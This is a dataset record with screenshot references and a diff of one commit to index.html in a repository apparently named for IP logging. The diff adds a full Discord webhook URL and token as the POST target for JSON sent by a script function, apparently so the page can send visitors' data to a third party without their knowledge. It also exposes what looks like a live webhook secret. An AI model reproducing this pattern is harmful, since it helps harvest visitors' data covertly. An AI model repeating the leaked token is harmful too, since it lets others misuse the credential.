

Before and after one commit to 8msv/ip, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 224-524 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -17,7 +17,7 @@ function monke(json)
 {
      var request = new XMLHttpRequest();
 
-     request.open("POST", "Add You Token Here");
+     request.open("POST", "https://discord.com/api/webhooks/1203591136829120522/-G484qMKwZ_VFOAOT3xA8dFMyvk1Ac0y8cvhy1gykPoZt_SvIbsatm7jYzWT85YHGlwk");
 
      request.setRequestHeader('Content-type', 'application/json');
 
```
